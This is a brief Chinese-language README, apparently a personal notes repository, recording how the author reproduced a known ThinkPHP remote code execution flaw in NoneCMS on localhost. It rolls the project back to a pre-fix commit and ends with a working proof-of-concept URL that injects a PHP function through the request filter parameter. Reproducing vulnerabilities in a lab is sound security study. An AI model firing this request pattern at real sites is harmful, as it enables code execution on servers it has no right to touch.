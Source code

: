 # Security-PHP-CVE
记录第一次CVE。

1、首先从公众号 得知CVE  

2、谷歌 bing 查  

3、在项目的开源项目上查到。具体出问题代码位置  （https://github.com/nangge/noneCms/issues/21）  

4、下载 项目  到网站目录下（localhost 即可）（nginx下）  

5、根据 3 知道出代码位置。 用https://github.githistory.xyz  找到thinkphp 核心代码修复修复时间  
（https://github.githistory.xyz/nangge/noneCms/blob/master/thinkphp/library/think/Request.php）

6、根据 5  的时间 ===》 在  
    https://github.com/nangge/noneCms/commits/master 找到 修复前的最后一次 commit_id

7、把项目代码退回到 出问题的 代码   
git reset --hard 712dc808448ff376d82d831410b9b53c6be4f85d
8、按照github 上提示 运行项目  
http://localhost/NoneCMS/public/install/

9、访问 http://localhost/NoneCMS/public/?s=index/\think\Request/input&filter=phpinfo&data=1

完美复现！！！

<img src="https://github.com/peng456/Security-PHP-CVE/blob/master/pic.png">
